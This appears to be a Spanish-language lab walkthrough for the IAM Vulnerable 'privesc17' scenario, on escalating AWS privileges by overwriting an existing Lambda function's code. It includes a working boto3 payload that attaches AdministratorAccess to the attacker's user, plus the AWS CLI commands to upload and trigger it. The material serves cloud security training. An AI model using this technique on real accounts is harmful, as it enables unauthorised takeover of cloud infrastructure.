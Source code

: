 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# EditExistingLambdaFunctionWithRole

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc17.  Para la correcta elevación de privilegios, depende de la interacción de otro usuario o de que la función actualizada sea ejecutada.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc17
{% endembed %}

Un atacante con el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> podría actualizar el código en una función Lambda existente con un rol de IAM adjunto para que importara la biblioteca de AWS relevante en ese lenguaje de programación y la usara para realizar acciones en nombre de ese rol.

### Configuración Inicial

Usuario del laboratorio: privesc17- EditExistingLambdaFunctionWithRole-user con los permisos:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener una función Lambda existente, con un rol adjunto que tenga el permiso <mark style="color:green;">iam:AttachUserPolicy.</mark>

Tambien es necesario tener en la infraestructura de pruebas un lambda ya configurado con cualquier funcionalidad con el rol a cual se va a asociar:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario del laboratorio

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



### Explotación

En este escenario, se va a utilizar el privilegio del usuario <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> para actualizar una función de lambda existente y añadirle código malicioso encargado de adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda maliciosa es la siguiente.

{% code title="lambda_function.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context): 
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17- EditExistingLambdaFunctionWithRole-user', 
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo de la nueva función lambda se usará el permiso <mark style="color:green;">**lambda:UpdateFunctionCode**</mark> es necesario llamar el archivo <mark style="color:green;">**lambda\_function.py**</mark> y luego comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip.**</mark> Después ejecutar el código:

{% code overflow="wrap" %}
```
aws lambda update-function-code --function-name FuncionHelloWorld --zip-file fileb://function.zip --profile privesc17
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

Cuando se ejecuta la función, se elevan los privilegios del atacante. Si el atacante tiene el permiso <mark style="color:green;">**lambda:InvokeFunction**</mark>, entonces es posible simplemente invocar la función directamente. De lo contrario, ocurrirá cuando otro usuario o servicio ejecute la función. En el siguiente ejemplo, otro usuario ejecuta la función.

El siguiente comando muestra a otro usuario de AWS invocando la lambda.

```
aws lambda invoke --function-name FuncionHelloWorld output.txt --profile other
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (6).png" alt=""><figcaption></figcaption></figure>

Finalmente ejecutando iam list attached user policies, podemos observar como el usuario inicial a ganado permisos de administrador:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



